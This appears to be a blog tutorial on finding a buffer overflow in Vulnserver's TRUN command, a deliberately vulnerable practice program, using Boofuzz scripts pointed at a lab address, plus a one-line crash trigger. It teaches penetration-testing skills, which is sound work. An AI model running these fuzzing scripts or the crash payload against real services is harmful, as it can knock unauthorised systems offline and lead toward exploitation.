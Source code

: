 ```yaml
---
title: Basic buffer overflow - Vulnserver TRUN command
author: Stipe Marinovic
date: 2020-04-30 00:34:00 +0800
categories: [Blogging, Tutorial]
tags: [pentest, ctp, bof]
toc: true
---
```


## TLDR; ##

* No bad chars
* Buffer is approx 4000 chars
* Use "TRUN ." + 4000 * "\x41" to trigger it

# Introduction to buffer overflow #

.... to do ....
Vulnserver is great resource for practicing buffer overflow.  
Source code can be found on: https://github.com/stephenbradshaw/vulnserver.  

## Fuzzing ##

To detect buffer overflow vulnerability, first we need to find a way to crash the application causing segmentation fault. There are many fuzzers which can be used, but most popular ones are Spike and Boofuzz with Spike being not developed any more and Boofuzz being actively developed.

### Boofuzz skeleton ###

```
#!/usr/bin/python
import sys
from boofuzz import *

host = '192.168.0.31'      # Server's IP address
port = 9999                # Port on which application is listening

def main():

   session = Session(target = Target(connection = SocketConnection(host, port, proto='tcp')))

   s_initialize("TRUN command")           # session name
   s_string("TRUN", fuzzable = True)      # command name defined as string which should be fuzzed
   s_delim(" ", fuzzable = True)          # delimiter (space) which should be fuzzed
   s_string("TEST", fuzzable = True)      # command parameter defined as string which should be fuzzed

   session.connect(s_get("TRUN command"))
   session.fuzz()

if __name__ == "__main__":
    main()
 
```

Fuzzing can take a long time. To avoid looking at debugger and stoping fuzzer, we can extend script by adding receive_fuzzer function and post_test_case_callbacks=[receive_banner] argument to Session function call.  
Function receive_banner tries to get data from socket, and if no data is received it indicates that application is crashed and prints payload length and writes paylod to a file.

```
#!/usr/bin/python
import sys
from boofuzz import *

host = '192.168.0.31'      # Server's IP address
port = 9999                # Port on which application is listening
temp = " "                 # Global varialbe to store last sent payload.

# Function receive_banner is used to receive data from socket and detect crash when no resposne is detected
def receive_banner(target, fuzz_data_logger, session, sock):
   global temp 
   data=sock.recv(20000)   # Try to recieve data from socket and if banner is not detected report crash
   if not "Welcome to Vulnerable Server! Enter HELP for help." in data:
      print "\n######################################################\n"
      print "[+] No banner received - application may be crashed"
      print "[+] Payload length: " + str (len(temp))
      print "[+] Payload saved in crash_report.txt"
      print "[+] Fuzzing ended"
      print "\n######################################################\n"
      f = open("crash_report.txt", "w")
      f.write(temp)  # Write payload from temp global variable. Session.last_send containes next sent payload and not the one that crashed the application.
      f.close()
      sys.exit(-1)
   else:
      temp=session.last_send  # If banner is receviced from socket - store last sent payload into temp variable  

def main():

   session = Session(post_test_case_callbacks=[receive_banner], target = Target(connection = SocketConnection(host, port, proto='tcp')))

   s_initialize("TRUN command")
   s_string("TRUN", fuzzable = True)
   s_delim(" ", fuzzable = True)
   s_string("TEST", fuzzable = True)

   session.connect(s_get("TRUN command"))
   session.fuzz()

if __name__ == "__main__":
    main()
 
```
